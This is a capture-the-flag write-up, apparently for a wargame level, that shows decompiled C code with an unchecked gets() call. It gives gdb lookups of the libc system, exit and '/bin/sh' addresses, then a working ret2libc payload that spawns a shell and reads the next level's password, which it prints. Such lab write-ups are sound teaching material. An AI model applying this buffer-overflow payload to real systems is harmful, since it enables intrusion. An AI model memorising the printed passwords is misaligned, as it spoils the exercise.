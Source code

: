 # Level 2
*pass: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77*

```
$ scp -P 4242 level2@192.168.56.108:level2 .
```

```
void main(void)

{
  p();
  return;
}
```

```
void p(void)
{
  uint unaff_retaddr;
  undefined local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}
```
```
(gdb) info proc map
...
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
...
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
```

```
(gdb) info funct system
...
0xb7e6b060  system
...
(gdb) info funct exit
...
0x080483d0  _exit
...
```
p() return address : 0x0804853e\
`/bin/sh` address : 0xb7f8cc58\
`system` address : 0xb7e6b060\
`exit` address : 0x080483d0

```
$ python -c 'print "a" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xd0\x83\x04\x08" + "\x58\xcc\xf8\xb7"' > /tmp/level2
$ cat /tmp/level2 - | ./level2
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
